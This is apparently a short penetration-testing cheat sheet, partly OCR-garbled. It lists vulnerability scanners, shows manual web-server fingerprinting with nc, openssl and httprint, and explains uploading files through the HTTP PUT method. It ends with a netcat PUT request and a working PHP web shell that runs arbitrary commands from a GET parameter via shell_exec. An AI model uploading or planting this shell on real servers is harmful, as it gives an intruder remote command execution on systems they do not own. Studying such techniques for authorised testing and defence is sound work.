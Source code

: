 OpenVAS
Nexpose
GFI LAN Guard
Nessus

List of various vuln scans:
https://sectools.org/tag/vuln-scanners/


# Web Scan

## MANUAL FINGERPRINT
```bash
nc <target> 80
HEAD / HTTP/1.0
<space>
<space>
```

For https use openssl:
```bash
openssl s_client -connect <target>:443
HEAD / HTTP/1.0
```
```bash
httprint -P0 -h <target> -s <signature file>
-P0 - to avoid pinging the host
-h - target hosts
```

HTTP VERBS
PUT

to count in bytes how long your payload is.
```bash
wc -m payload.php
```
```bash
nc <target site> 80
PUT /payload.php hTTP/1.0
Content-Type: text/html
Content-lenght: 136 > value that we get with wc -m <payload>
```

```php
<?php phpinfo(); ?>

```

PHP shell code: to use with PUT method:
```php
<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>
```
